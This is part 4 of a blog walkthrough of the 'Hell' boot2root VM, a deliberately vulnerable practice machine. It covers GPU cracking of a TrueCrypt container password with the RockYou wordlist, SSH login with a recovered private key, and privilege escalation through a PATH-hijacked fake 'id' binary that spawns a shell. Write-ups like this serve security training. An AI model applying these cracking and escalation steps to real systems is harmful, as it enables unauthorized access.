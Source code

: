 ```yaml
---
author: recrudesce
comments: false
date: 2014-07-20 18:46:02+00:00
layout: post
slug: hell-walkthrough-part-4
title: Hell Walkthrough - Part 4
wordpress_id: 136
categories:
- VM's
tags:
- boot2root
- g0tmi1k
- hacking
- hell
- nmap
- peleus
- vulnhub
---
```


[Part 1](http://fourfourfourfour.co/2014/07/17/hell-walkthrough-part-1/) | [Part 2](http://fourfourfourfour.co/2014/07/18/hell-walkthrough-part-2/) | [Part 3](http://fourfourfourfour.co/2014/07/19/hell-walkthrough-part-3/) | Part 4 | [Part 5](http://fourfourfourfour.co/2014/07/21/hell-walkthrough-part-5/)

Yup, we're still going.  Told you it'd be a long journey didn't I ?



## Tales from the Crypt, But First I'll Rock You


George has one file in his home folder - a Truecrypt container.  I guess no one has told George that TrueCrypt isn't recommended any more - he should be using something else.  *shakes fist at the NSA*
<!-- more -->

Mounting the TrueCrypt container requires us to know the container password, which we currently don't have.


``` bash

george@hell:~$ truecrypt --mount container.tc 
Enter mount directory [default]: 
Enter password for /home/george/container.tc: 
Enter keyfile [none]: 
Protect hidden volume (if any)? (y=Yes/n=No) [No]: 
No password or keyfile specified.
```


Looking around a bit more, it looks like George has also signed up for RockYou


``` bash

From: admin@rockyou.com
To: super_admin@hell.com
Subject: Account Activation
Date: 13th November 2009

Thanks for signing up for your account. I hope you enjoy our services. 
```


*ka-ching* George's password will be on the leaked RockYou wordlist.  oclHashCat can help us out here, thanks to the ability to use GPU's.  Yes, I'm using a Windows PC for this, sue me.


``` bash

G:\Downloads\oclHashcat-1.21>oclHashcat64.exe -m 6211 -a 0 "g:\downloads\container.tc" g:\Downloads\dictionaries\catted\rockyou.txt

g:\downloads\container.tc:letsyouupdateyourfunnotesandmore

Session.Name...: oclHashcat
Status.........: Cracked
Input.Mode.....: File (g:\Downloads\dictionaries\catted\rockyou.txt)
Hash.Target....: File (g:\downloads\container.tc)
Hash.Type......: TrueCrypt 5.0+ PBKDF2-HMAC-RipeMD160 + AES
Time.Started...: Sat Jul 12 23:06:15 2014 (17 secs)
Speed.GPU.#1...:    29889 H/s
Recovered......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.......: 496641/14343296 (3.46%)
Skipped........: 0/496641 (0.00%)
Rejected.......: 1/496641 (0.00%)
HWMon.GPU.#1...: 97% Util, 56c Temp, 32% Fan

Started: Sat Jul 12 23:06:15 2014
Stopped: Sat Jul 12 23:06:37 2014
```


That didn't take too long now did it ?  But we have the TrueCrypt container password, which makes mounting it a tiny bit easier now.


``` bash

george@hell:~$ truecrypt --mount container.tc 
Enter mount directory [default]: ./tc
Enter password for /home/george/container.tc: letsyouupdateyourfunnotesandmore
Enter keyfile [none]: 
Protect hidden volume (if any)? (y=Yes/n=No) [No]: 

george@hell:~$ cd tc
george@hell:~/tc$ ls -l
total 2
-rwx------ 1 george george 1679 Jul  5 20:01 id_rsa
george@hell:~/tc$ 
```


Hmm, a private key - lets try SSHing in as bazza using this key and see what happens.


``` bash

george@hell:~/tc$ ssh bazza@127.0.0.1 -i ./id_rsa 
Linux hell 3.2.0-4-486 #1 Debian 3.2.57-3+deb7u2 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 13 21:18:28 2014 from 192.168.0.102
$ whoami
bazza
```


Oh... I was expecting a bit more of a fight, but I guess Bazza trusts George, even though he uses defunct software that allows privilege escalation (look it up).  Fool. 



## Bazza's Blockade



Once again we're presented with 2 binaries, with SUID attributes set.  This time, however, we can read the files, which means we can decompile them.  Time to take a look

[c]int __cdecl main()
{
  int result; // eax@6
  _BYTE v1[3]; // [sp+19h] [bp-417h]@3
  FILE *v2; // [sp+424h] [bp-Ch]@1
  const char *v3; // [sp+428h] [bp-8h]@1
  const char *v4; // [sp+42Ch] [bp-4h]@1

  v4 = "900462fbf9593f1a4b753f1729c431abc80932a151e9b293e13822a91f9641c1  /home/bazza/part2\n";
  v3 = "1003a011c5bdb65a07a8f92feb6b7d7ecbf3a3ff0f2a46abbe5c777c525996d8  /usr/bin/id\n";
  printf("Checking integrity of part2...");
  v2 = popen("sha256sum /home/bazza/part2", "r");
  if ( !v2 )
    puts("Failed to run command");
  fgets(v1, 1034, v2);
  if ( strcmp(v1, v4) )
  {
    puts("Uh oh.... Corrupted or in wrong directory (/home/bazza/)\n");
    result = 0;
  }
  else
  {
    puts(" Done!!\n");
    printf("Checking integrity of calling target...");
    v2 = popen("sha256sum /usr/bin/id", "r");
    if ( !v2 )
      puts("Failed to run command");
    fgets(v1, 1034, v2);
    if ( strcmp(v1, v3) )
    {
      puts("Target corrupt\n");
      result = 0;
    }
    else
    {
      puts(" Done!!\n\nBinary and target confirmed.");
      system("/home/bazza/part2");
      pclose(v2);
      result = 0;
    }
  }
  return result;
}
```


OK, so part1 runs part2 (this time with an absolute path), so time for a quick peek into part2

[c]int __cdecl main()
{
  __gid_t v0; // eax@2
  int result; // eax@2

  if ( getegid() == 1003 )
  {
    puts("\nCan't touch this *nah na na na na naaaaaaaa nah*");
    system("id");
    result = 0;
  }
  else
  {
    v0 = getegid();
    printf("\n\nError! %d ID detected ... you're not allowed to run this, please use part 1!\n", v0);
    result = 0;
  }
  return result;
}
```


So, part2 will run only if the effective group identifier is 1003.  part1 has a SUID attribute set as group developers, which means you have to run part1 before part2.  If you run part2 first, this happens


``` bash

Error! 1004 ID detected ... you're not allowed to run this, please use part 1!
```


Running part1 changes our effective group identifier, and part2 changes our effective user identifier, but doesn't seem to drop us to a shell as that user (oj)


``` bash

$ ./part1
Checking integrity of part2... Done!!

Checking integrity of calling target... Done!!

Binary and target confirmed.

Can't touch this *nah na na na na naaaaaaaa nah*
uid=1004(bazza) gid=1004(bazza) euid=1005(oj) egid=1003(developers) groups=1005(oj),1004(bazza)
$ whoami
bazza
```


A further look into the source code for part2 shows that it is not using an absolute path for the system("id") function, therefore we can trick this application into running a bogus id binary in the same way we did with the bogus chmod binary.  The source code is pretty much the same, apart from the fact I'm using uid 1005 rather than 1000.

[c]#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
 setuid( 1005 );
 system("/usr/bin/id");
 system( "/bin/sh -i" );
}
```


This is compiled, placed in /tmp and made executable.  The path environment variable is modified as per last time and we're good to go.


``` bash

$ ./part1
Checking integrity of part2... Done!!

Checking integrity of calling target... Done!!

Binary and target confirmed.

Can't touch this *nah na na na na naaaaaaaa nah*
uid=1004(bazza) gid=1004(bazza) euid=1005(oj) egid=1003(developers) groups=1005(oj),1004(bazza)
$ whoami
oj

```


Success !

Nearly there, only this hoop to jump through and we're done.  I figured this'd be a 5 parter, now I know it is going to be.

